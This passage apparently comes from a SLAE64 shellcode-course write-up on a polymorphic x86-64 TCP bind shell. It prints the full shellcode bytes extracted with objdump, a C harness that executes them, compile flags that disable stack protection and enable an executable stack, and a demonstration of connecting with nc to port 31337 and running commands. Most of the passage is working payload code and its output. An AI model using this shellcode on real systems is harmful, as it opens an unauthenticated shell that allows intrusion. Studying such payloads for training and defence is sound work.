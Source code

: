 ```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/2_tcpbindshell$ objdump -d ./tcpbindshell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xff\x48\x31\xf6\x48\xf7\xe6\x48\x83\xc7\x02\x48\x83\xc6\x01\x48\x83\xc2\x06\x48\x83\xc0\x29\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x32\x58\x0f\x05\x41\x50\x5f\x48\x31\xf6\x48\x89\xf2\x6a\x2b\x58\x0f\x05\x48\x89\xc7\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xf6\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
```

After that, we modify the `shellcode.c` with the shellcode from `objdump`.

The whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x48\x31\xff\x48\x31\xf6\x48\xf7\xe6\x48\x83\xc7\x02\x48\x83\xc6\x01\x48\x83\xc2\x06\x48\x83\xc0\x29\x0f\x05\x49\x89\xc0\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\x48\x89\xe6\x41\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x41\x50\x5f\x6a\x32\x58\x0f\x05\x41\x50\x5f\x48\x31\xf6\x48\x89\xf2\x6a\x2b\x58\x0f\x05\x48\x89\xc7\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xf6\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

Now we compile the `C` program.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/2_tcpbindshell$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode` and connect with `nc` on port `31337`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/2_tcpbindshell$ ./shellcode
Shellcode Length: 124

```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~$ nc localhost 31337
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
shellcode
shellcode-original
shellcode-original.c
shellcode.c
tcpbindshell
tcpbindshell-original
tcpbindshell-original.nasm
```